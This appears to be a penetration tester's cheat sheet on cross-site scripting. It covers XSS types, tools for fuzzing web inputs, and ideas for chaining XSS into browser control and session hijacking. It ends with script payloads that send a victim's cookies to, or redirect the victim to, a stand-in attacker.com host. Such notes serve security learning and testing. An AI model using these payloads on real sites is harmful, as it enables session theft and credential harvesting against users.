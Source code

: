 # Cross Site Scripting

## Things to remember
  *  PayloadsAllTheThings contains tons of [XSS payloads and filter bypass techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
  *  Descriptions summarized from [OWASP XSS page](https://owasp.org/www-community/attacks/xss/)
  *  Reflected XSS coerces the victim browser to send the payload to the server
      *  The server "reflects" the payload back to the browser
      *  e.g. Specially crafted links, redirects, etc.
  *  Stored XSS involves storing the payload on the server
      *  Affects any user that visits the page containing the payload

## Useful tools
  *  [`wfuzz`](https://www.kali.org/tools/wfuzz/) and [`ffuf`](https://github.com/ffuf/ffuf) for manually fuzzing web app inputs for XSS
  *  [`seclists`](https://github.com/danielmiessler/SecLists) for some command injection fuzzing lists
  *  [`BeEF`](https://beefproject.com/) for hooking/controlling/exploiting browsers

## Fuzzing for XSS
  *  `wfuzz` and `ffuf` for XSS fuzzing
      *  Fuzz more than just parameters! Cookies, headers, etc.
  *  Carefully parse HTTP POST requests before using `wfuzz`
      *  Be specific with things like cookies, headers, URL structure, etc.
      *  Failing to provide these values can produce ineffective requests
  *  `ffuf` can parse requests from text files
      *  Easier handling of more complex POST requests
      *  No recursive grep, consider `Burp Intruder` in these cases
  *  Plenty of XSS wordlists available in `seclists`

```
wfuzz -w /path/to/xss.txt -b 'exampleCookie=cookieValue' 'http://10.0.0.1/xss?param=FUZZ'
wfuzz -w /path/to/xss.txt -H 'exampleHeader: headerValue' -d 'param=FUZZ' 'http://10.0.0.1/xss'
```

```
ffuf -request req.txt --request-proto http -w /path/to/xss.txt -v
```

## Exploiting XSS
  *  Implant `BeEF` hooks to leverage XSS into browser control
  *  Consider leveraging XSS to view web pages as the victim user
      *  Useful in situations where token/cookie theft is not possible/applicable
  *  Consider chaining XSS into various client-side attacks
      *  Browser exploit, harvester implant/redirect, drive-by download, etc.
  *  Consider chaining XSS into session hijack by stealing cookies/tokens
      *  PayloadsAllTheThings has a list of [payloads for cookie/token theft](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#data-grabber-for-xss)

```
<img src="http://attacker.com/" />
<script>new Image().src="http://attacker.com/"+document.cookie;</script>
<script>window.location.href="http://attacker.com/harvester";</script>
```
